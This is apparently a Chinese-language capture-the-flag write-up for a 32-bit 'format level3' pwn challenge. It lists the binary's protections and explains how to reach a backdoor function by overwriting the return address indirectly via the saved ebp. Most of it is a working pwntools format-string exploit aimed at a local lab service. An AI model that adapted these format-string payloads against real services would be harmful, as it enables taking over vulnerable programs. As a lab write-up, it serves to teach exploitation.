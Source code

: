 ```yaml
---
title: format level3
date: 2023/9/26 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

和level2类似，存在后门，但是输入的str放到了.bss上

踩过的坑：16字节还想把栈迁移到.bss上？直接爆了（栈上的空间本来也不够）

正解：通过ebp+4来利用ebp间接改写返回地址

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
